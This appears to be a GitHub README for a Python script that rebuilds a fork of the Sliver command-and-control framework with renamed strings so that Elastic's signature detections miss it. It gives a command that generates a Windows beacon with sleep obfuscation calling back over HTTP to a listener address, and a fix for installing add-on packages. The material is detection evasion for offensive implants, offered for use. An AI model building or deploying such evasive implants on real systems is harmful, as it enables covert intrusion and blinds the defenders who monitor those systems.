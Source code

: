 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.

Python script that does the job of slivercloak against armysick's sliver fork

slivercloak -> https://github.com/thelikes/slivercloak

armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.

I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`

Make sure you have some common tools suchs as
- zip
- go

This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
sudo ./golder-server

generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe --seconds 5

http
```
[!BypassElastic](ElasticRuleBypass.png)
## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
